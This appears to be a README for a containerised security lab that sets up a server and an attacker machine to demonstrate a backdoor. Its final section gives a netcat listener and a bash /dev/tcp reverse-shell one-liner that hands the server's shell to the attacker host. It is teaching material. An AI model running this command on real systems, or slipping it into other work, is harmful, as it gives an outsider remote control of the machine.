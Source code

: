 # Demonstration of backdoor
## About the docker images
Two images (one for the server, another for the attacker) are created based on Ubuntu 20.04 OS with minimal packages pre-installed.<br>

## Network configuration
The server and attacker containers will be created and attach to network 10.9.0.0/24 <br>
The server machine is named server-10.9.0.5, whereas attacker-10.9.0.6 is the name of the attacker machine.<br>
The local directory `/mapdir` inside the server mapped to directory `./containers` on the host machine.<br>
## Building up the network
1. Create a directory named Backdoor. Copy docker-compose.yml and directory containers to the newly created directory.
2. Inside Backdoor directory, issuing the command `$>docker-compose up` to build up the images, containers, network. When everything is up, the containers are ready.<br>
## Attach to machines
In a new terminal, issuing `$>docker ps` to list all running containers. There should be names of server and attacker machines.<br>
To attach to the server machine, issuing `$>docker exec -it server-10.9.0.5 /bin/bash`. You should be inside the server.<br>
To attach to the attacker machine, issuing `$>docker exec -it attacker-10.9.0.5 /bin/bash`. You should be inside the attacker.<br>
## Open the backdoor
While in the attacker machine, issue  `# nc -l 9090 -v`. The attacker will listen on port 9090 for connection.<br>
In the server machine, issue `# /bin/bash -c "/bin/bash -i > /dev/tcp/10.9.0.6/9090 0<&1 2>&1"`.<br>
A TCP connection between the two machines is now established. All input and output of the server are now directed to the attacker machine! 
